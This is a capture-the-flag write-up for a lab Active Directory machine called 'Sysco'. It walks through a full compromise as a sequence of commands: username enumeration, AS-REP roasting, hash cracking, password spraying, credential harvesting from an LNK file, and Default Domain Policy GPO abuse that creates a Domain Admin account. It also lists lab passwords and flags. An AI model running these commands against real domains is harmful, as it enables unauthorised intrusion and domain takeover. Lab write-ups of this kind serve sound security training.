# Lab Report - Sysco


# Overview 
---
- **Difficulty**: Medium
- **Platform**: Windows - Active Directory
- **Link**: https://www.hacksmarter.org/courses/18876893-1afd-443f-b448-0681b13e86ec

## Resolution Summary 
---
We started by extracting a list of names (team members) from the web application running on port 80. We crafted a list of usernames and validate them against the DC, leading to us find an ASREPRoastable user (`jack.dowland`) that allowed us to gain a credentialed access to the domain. Afterwards, we logged in on  `Roundcube` and retrieved an attachment which contained a password hash for `lainey.moore` , which we cracked. Having new credentials, we could RDP into the target and find credentials for `greg.shields` in an LNK file. Finally, we abused `GenericAll` over the `Default Domain Policy` GPO to add a newly created user to the Domain Admins group, leading to a full compromise of the AD domain. 

# Walkthrough
---
- To begin with, we scanned the target's ports with Nmap to discover available services on the host. We found a web application running on port 80: 
```bash
sudo nmap 10.1.25.72 -p- -vv --open
```
<p align="center">
  
</p>

- After navigating the web application, we only uncovered a list of names that could be used to generate candidate usernames: 
```bash
http://10.1.25.72
```
<p align="center">
  
</p>

- Therefore, we copied them in a file: 
```bash
cat names.txt
#Output
Greg Shields
Sarah Jhonson
Jack Dowland
Lainey Moore
```

- Having that at our disposition, we crafted a list of plausible usernames and then tested them in order to find valid ones. We discovered three valid usernames, one of which was vulnerable to ASREPRoasting: 
```bash
/opt/UserEnum/username-anarchy/username-anarchy -i names.txt > possible_users.txt

kerbrute userenum -d SYSCO.LOCAL --dc 10.1.25.72 possible_users.txt
```
<p align="center">
  
</p>

- Note: For some reasons, cracking the hash retrieved by `kerbrute` ended up not being possible, we had to retrieve it using another tool 

- Knowing that `jack.dowland` is vulnerable to ASREPRoasting, we retrieved its hash and save it in a file for offline cracking: 
```bash
nxc ldap 10.1.25.72 -u 'jack.dowland' -p '' --asreproast asrep.txt
```
<p align="center">
  
</p>

- Afterwards, we were able to successfully retrieve its cleartext password: 
```bash
hashcat -m 18200 asrep.txt ~/Downloads/rockyou.txt
```
<p align="center">
  
</p>

- Having a foothold on the domain, we collected bloodhound data to see if our user had any dangerous ACLs we could abuse to further our access: 
```bash
nxc ldap 10.1.25.72 -u jack.dowland -p 'musicman1' --bloodhound --collection all --dns-server 10.1.25.72
```
<p align="center">
  
</p>

- We did not find anything apparent that we could abuse for now, but we discovered that `lainey.moore` was a member of RDP and WinRM groups (shell access on DC), and that `greg.shields` can be used to abuse the `Default Domain Policy` GPO (for Domain Admin compromise).

- Focusing back on the web application, while fuzzing for directories, we discovered that `roundcube` was available: 
```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt:FUZZ -u http://10.1.25.72/FUZZ -t 180 -ic
```
<p align="center">
  
</p>

- Having a pair of credentials, we could attempt to use to gain access to emails that could potentially reveal sensitive information.

- Using `jack.dowland:musicman1` resulted in an error. However, when inspecting the web application, we found an email address `info@sysco.local` which strongly hinted us at email addresses pattern. 

- Hence, using `jack.dowland@sysco.local:musicman1` resulted in a successful login. While its `Inbox` was empty, we could recover a file from its `Sent`. 
```bash
http://10.1.25.72/roundcube
```
<p align="center">
  
</p>

- After inspecting the file, we discovered a secret hash: 
```bash
strings router2.cfg
```
<p align="center">
  
</p>

- We cracked it and recovered what seemed like a password: 
```bash
hashcat -m 500 '$1$mERr$isugnYiHsjHT.i.tc2GDY.' ~/Downloads/rockyou.txt
```
<p align="center">
  
</p>

- After spraying it against our list of users, we got a hit for the `lainey.moore` user:
```bash
nxc smb 10.1.25.72 -u users.txt -p 'Chocolate1' --continue-on-success
```
<p align="center">
  
</p>

- Thanks to our bloodhound data, we discovered that `lainey.moore` was a member of the RDP and WinRM group, allowing us to get a shell session on the DC: 
- Screen 12
```bash
xfreerdp3 /v:10.1.25.72 /u:'lainey.moore' /p:'Chocolate1'
```

- We collected the first flag:
<p align="center">
  
</p>

- After launching a PS session, we found an lnk file under the user's `Documents` directory, which had hardcoded credentials in it: 
```bash
cat "C:\Users\lainey.moore\Documents\Putty - HS Router login.lnk"
```
<p align="center">
  
</p>

- We sprayed that new password and gained access to the `greg.shields` user:
```bash
nxc smb 10.1.25.72 -u greg.shields -p '5y5coSmarter2025!!!'
```
<p align="center">
  
</p>

- On bloodhound, we uncovered that `greg.shields` can be used to abuse the Default Domain Policy GPO, leading to domain compromise:
<p align="center">
  
</p>

- For that, we attempted to create a new user and add him to the local admin group:
```bash
python3 pygpoabuse.py sysco.local/greg.shields:'5y5coSmarter2025!!!' -gpo-id 31B2F340-016D-11D2-945F-00C04FB984F9 -taskname SecurityUpdate  -dc-ip 10.1.25.72 -command 'net user hacker Password123! /add && net group "Domain Admins" hacker /add' -filter-enabled -target-dns-name dc01.sysco.local
```

- After a ~5 minutes, we notice that our fake user is part of the Domain Admins group: 
```powershell
Get-ADGroupMember -Identity "Domain Admins"
```
	- Note, we could have force the app
<p align="center">
  
</p>

- Finally, we can proceed to collect the last flag by accessing the target over WinRM: 
```bash
evil-winrm -i 10.1.25.72 -u hacker -p 'Password123!'
cat C:\Users\Administrator\Desktop\root.txt
```
<p align="center">
  
</p>

# Trophy 
---
**User.txt → `5efd12c8bc80b6882fa86f5698b14dc6`**

**Root.txt → `e7f850e7c14aeae7ecbb900fb6afbba1`**

# Lessons Learned
---
- Although `kerbrute` may provide the hash for ASREProastable users, it may not be valid (won't be crackable).
	- Always use other tools, such as Netexec or Impacket. 
